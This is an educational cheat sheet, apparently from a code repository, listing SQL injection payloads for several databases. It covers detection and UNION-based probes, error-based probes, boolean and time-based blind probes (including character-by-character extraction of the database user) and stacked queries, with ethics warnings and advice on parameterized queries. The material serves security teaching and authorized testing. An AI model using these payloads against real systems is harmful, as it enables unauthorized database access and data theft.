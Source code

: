 # Common SQL Injection Payloads & Examples (Safe Testing)

> [!WARNING]
> **Ethics reminder:** These payloads are **for education and lab environments only**. Never run them against unauthorized systems.

---

## 1. Basic detection payloads

* Single quote: `'` — triggers syntax errors if not escaped.
* Double quote: `"` — depending on context.
* Logical tests:

```sql
1 OR 1=1 --
1 AND 1=2 --
```

Used to confirm influence on query logic.

---

## 2. Union-based examples

* Find column count (safe incremental NULLs):

```sql
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
```

* Identify display columns:

```sql
' UNION SELECT 'A','B','C' --
```

* Fingerprint DB (non-destructive):

```sql
' UNION SELECT NULL, version(), NULL --  # MySQL
' UNION SELECT NULL, @@version, NULL --  # MSSQL
' UNION SELECT NULL, banner, NULL FROM v$version --  # Oracle
```

---

## 3. Error-based payloads (safe probes)

* Trigger syntax or type errors to fingerprint the DBMS:

```sql
' AND 1=(SELECT CAST(user() AS SIGNED)) --  # MySQL
' AND 1=(SELECT CONVERT(INT, SYSTEM_USER)) --  # MSSQL
' AND 1=(SELECT TO_NUMBER(user)) --  # Oracle
```

* Avoid destructive operations; only observe error messages.

---

## 4. Boolean-based blind payloads

* Character extraction patterns:

```sql
' AND SUBSTRING((SELECT user()),1,1)='a' --  # MySQL
' AND SUBSTRING((SELECT SYSTEM_USER),1,1)='a' --  # MSSQL
' AND SUBSTR((SELECT user FROM dual),1,1)='A' --  # Oracle
' AND SUBSTRING((SELECT current_user),1,1)='a' --  # PostgreSQL
```

* Confirm influence with `AND 1=1 / AND 1=2` first.

---

## 5. Time-based blind payloads

* MySQL: `SLEEP(seconds)`

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

* MSSQL: `WAITFOR DELAY '00:00:05'`

```sql
' ; IF 1=1 WAITFOR DELAY '00:00:05' --
```

* PostgreSQL: `pg_sleep(seconds)`

```sql
' OR CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END --
```

* Oracle: `DBMS_LOCK.SLEEP(seconds)` (requires privilege)

```sql
' AND CASE WHEN 1=1 THEN DBMS_LOCK.SLEEP(5) ELSE NULL END IS NULL --
```

* Always measure response times carefully; repeat to reduce false positives.

---

## 6. Stacked-query payloads (non-destructive)

* Check if multiple statements are allowed (safe select only):

```sql
' ; SELECT 'X' --
' ; BEGIN NULL; END; --  # Oracle PL/SQL block
```

* Do **not** include destructive queries like `DROP` or `DELETE` in test environments.

---

## 7. Tips for safe practice

> [!TIP]
> * Use parameterized queries or ORM bindings in real applications.
> * Test only in lab or explicitly authorized environments.
> * Combine these payloads with tools like Burp Suite and sqlmap for controlled testing.
> * Document all experiments; ensure repeatability and safety.